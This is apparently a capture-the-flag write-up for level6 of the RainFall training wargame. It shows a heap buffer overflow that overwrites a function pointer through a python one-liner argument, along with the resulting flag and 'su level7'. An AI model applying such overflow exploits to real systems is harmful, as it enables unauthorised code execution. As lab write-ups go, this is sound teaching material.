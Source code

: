 Here, we need to overwrite the value of `m` . To do so, we will again do a buffer overflow. What we know also, is that if you do 2 mallocs in a row, you will get two address that are side by side. So, we can easily overflow our buffer and write inside `ppcVar1` like so :

```bash
 ./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08" * 1000')
```

(It's a bit overkill but we could have done the same as level0-3 to find the right number so we overwrite only what we want, but we already did that at least 4 times).

>level6@RainFall:~$ ./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08" * 1000')
>f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

```bash
su level7
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

